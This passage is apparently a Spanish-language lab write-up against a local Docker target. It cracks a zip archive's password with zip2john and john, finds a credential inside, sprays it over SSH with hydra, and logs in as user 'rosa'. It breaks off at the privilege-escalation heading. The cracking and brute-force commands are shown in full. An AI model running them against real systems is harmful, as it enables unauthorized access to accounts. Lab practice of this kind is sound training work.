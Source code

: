 Vemos que tiene un archivo: **secreto.txt** asi que ese ahora es nuestro objetivo, Por lo que primero convertimos el **hash**
```bash
zip2john seguro.zip > hash.txt
```

Ahora realizamos ataque de fuerza bruta para encontrar la clave:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Tenemos la clave:
```bash
Press 'q' or Ctrl-C to abort, almost any other key for status
chocolate        (seguro.zip/secreto.txt)
```

### Credenciales Encontradas
Volvemos a descomprimir y vemos el contenido que parese una contrasena:
```bash
cat secreto.txt
─────┬──────────────────
     │ File: secreto.txt
─────┼──────────────────
 1   │ aprendemos
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemnos una posible credencial la usaremos para intentar descubrir un usaurio valido para el sistema:
### Ejecucion del Ataque
```bash
# Comandos para explotación
hydra -L /usr/share/SecLists/Usernames/xato-net-10-million-usernames.txt -p aprendemos -f ssh://172.17.0.2
```

### Intrusion
Tenemos una credencial valida:
```bash
[22][ssh] host: 172.17.0.2   login: rosa   password: aprendemos
```

```bash
# Reverse shell o acceso inicial
ssh-keygen -R 172.17.0.2 && ssh rosa@172.17.0.2 # ( aprendemos )
``` 

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Comandos clave ejecutados
-
```
### Explotacion de Privilegios
